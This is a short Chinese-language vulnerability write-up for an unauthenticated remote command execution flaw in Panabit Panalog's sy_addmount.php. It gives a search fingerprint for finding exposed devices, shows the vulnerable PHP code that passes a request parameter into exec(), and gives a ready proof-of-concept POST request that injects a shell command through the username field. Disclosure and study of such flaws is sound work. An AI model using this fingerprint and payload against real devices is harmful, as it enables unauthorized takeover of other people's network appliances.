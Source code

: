 # Panabit Panalog sy_addmount.php 远程命令执行漏洞

## 漏洞描述

Panabit Panalog sy_addmount.php过滤不足，导致远程命令执行漏洞

## 漏洞影响

```
Panabit Panalog
```

## 网络测绘

```
body="Maintain/cloud_index.php"
```

## 漏洞复现

登录页面

![image-20230314084818630](images/image-20230314084818630.png)

存在漏洞的代码为 account/sy_addmount.php

```
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

其中没有对身份进行鉴权，且 username 可控，构造POC

```
POST /account/sy_addmount.php

username=|id
```

![image-20230314084851344](images/image-20230314084851344.png)